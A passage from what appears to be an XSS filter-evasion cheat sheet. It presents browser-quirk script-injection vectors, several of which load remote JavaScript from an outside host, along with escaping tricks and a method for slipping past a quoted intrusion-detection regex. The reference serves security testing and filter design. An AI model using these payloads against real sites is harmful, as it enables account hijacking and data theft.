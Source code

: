 Yair Amit brought this to my attention that there is slightly different behavior between the IE and Gecko rendering engines that allows just a slash between the tag and the parameter with no spaces. This could be useful if the system does not allow spaces.
<pre>&lt;SCRIPT/SRC="http://xss.rocks/xss.js"&gt;&lt;/SCRIPT&gt;
</pre>
<h2><span id="Extraneous_open_brackets" class="mw-headline">Extraneous open brackets</span></h2>
Submitted by Franz Sedlmaier, this XSS vector could defeat certain detection engines that work by first using matching pairs of open and close angle brackets and then by doing a comparison of the tag inside, instead of a more efficient algorythm like Boyer-Moore that looks for entire string matches of the open angle bracket and associated tag (post de-obfuscation, of course). The double slash comments out the ending extraneous bracket to supress a JavaScript error:
<pre>&lt;&lt;SCRIPT&gt;alert("XSS");//&lt;&lt;/SCRIPT&gt;
</pre>
<h2><span id="No_closing_script_tags" class="mw-headline">No closing script tags</span></h2>
In Firefox and Netscape 8.1 in the Gecko rendering engine mode you don't actually need the "&gt;&lt;/SCRIPT&gt;" portion of this Cross Site Scripting vector. Firefox assumes it's safe to close the HTML tag and add closing tags for you. How thoughtful! Unlike the next one, which doesn't effect Firefox, this does not require any additional HTML below it. You can add quotes if you need to, but they're not needed generally, although beware, I have no idea what the HTML will end up looking like once this is injected:
<pre>&lt;SCRIPT SRC=http://xss.rocks/xss.js?&lt; B &gt;
</pre>
<h2><span id="Protocol_resolution_in_script_tags" class="mw-headline">Protocol resolution in script tags</span></h2>
This particular variant was submitted by Łukasz Pilorz and was based partially off of Ozh's protocol resolution bypass below. This cross site scripting example works in IE, Netscape in IE rendering mode and Opera if you add in a &lt;/SCRIPT&gt; tag at the end. However, this is especially useful where space is an issue, and of course, the shorter your domain, the better. The ".j" is valid, regardless of the encoding type because the browser knows it in context of a SCRIPT tag.
<pre>&lt;SCRIPT SRC=//xss.rocks/.j&gt;
</pre>
<h2><span id="Half_open_HTML.2FJavaScript_XSS_vector" class="mw-headline">Half open HTML/JavaScript XSS vector</span></h2>
Unlike Firefox the IE rendering engine doesn't add extra data to your page, but it does allow the javascript: directive in images. This is useful as a vector because it doesn't require a close angle bracket. This assumes there is any HTML tag below where you are injecting this cross site scripting vector. Even though there is no close "&gt;" tag the tags below it will close it. A note: this does mess up the HTML, depending on what HTML is beneath it. It gets around the following NIDS regex: /((\%3D)|(=))[^\n]*((\%3C)|&lt;)[^\n]+((\%3E)|&gt;)/ because it doesn't require the end "&gt;". As a side note, this was also affective against a real world XSS filter I came across using an open ended &lt;IFRAME tag instead of an &lt;IMG tag:
<pre>&lt;IMG SRC="javascript:alert('XSS')"
</pre>
<h2><span id="Double_open_angle_brackets" class="mw-headline">Double open angle brackets</span></h2>
Using an open angle bracket at the end of the vector instead of a close angle bracket causes different behavior in Netscape Gecko rendering. Without it, Firefox will work but Netscape won't:
<pre>&lt;iframe src=http://xss.rocks/scriptlet.html &lt;
</pre>
<h2><span id="Escaping_JavaScript_escapes" class="mw-headline">Escaping JavaScript escapes</span></h2>
When the application is written to output some user information inside of a JavaScript like the following: &lt;SCRIPT&gt;var a="$ENV{QUERY_STRING}";&lt;/SCRIPT&gt; and you want to inject your own JavaScript into it but the server side application escapes certain quotes you can circumvent that by escaping their escape character. When this gets injected it will read &lt;SCRIPT&gt;var a="\\";alert('XSS');//";&lt;/SCRIPT&gt; which ends up un-escaping the double quote and causing the Cross Site Scripting vector to fire. The XSS locator uses this method.:
<pre>\";alert('XSS');//
</pre>
An alternative, if correct JSON or Javascript escaping has been applied to the embedded data but not HTML encoding, is to finish the script block and start your own:
<pre>&lt;/script&gt;&lt;script&gt;alert('XSS');&lt;/script&gt;
</pre>
<h2><span id="End_title_tag" class="mw-headline">End title tag</span></h2>